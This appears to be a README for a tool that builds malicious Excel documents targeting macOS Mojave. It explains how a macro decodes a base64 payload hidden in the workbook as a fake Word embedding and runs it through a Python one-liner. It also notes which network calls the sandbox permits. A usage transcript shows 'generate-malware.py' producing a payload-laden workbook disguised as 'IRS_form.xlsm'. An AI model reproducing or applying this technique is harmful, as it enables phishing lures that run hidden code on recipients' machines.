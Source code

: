 # MacOS_VBA_Macro
Example VBA Macro for MacOS Mojave 10.14

# Summary
The template excel document contains a macro targeting MacOS.
The macro expects a base64 encoded payload to exist at xl/embeddings/Microsoft_Word_Document2.docx.
It will then base64 decode and run the script as a one-liner in a python command (python -c "command").
Note: MacOS 10.14 Mojave does not allow any child processes from Microsoft Excel to establish a socket. Normal get/post request are fine.

# Generate from the python script
```
malware $python generate-malware.py -h
Usage: generate-malware.py [options]

Options:
  -h, --help            show this help message and exit
  -p PAYLOAD_FILENAME, --payload=PAYLOAD_FILENAME
  -t TEMPLATE_FILENAME, --template=TEMPLATE_FILENAME
  -o OUTPUT_FILENAME, --output=OUTPUT_FILENAME
malware $python generate-malware.py -p ../python_payload.bin 
template-doc/Workbook1.xlsm
temp.0.352844482538/payload.tmp
Successful
Saved as temp.0.352844482538/IRS_form.xlsm
```
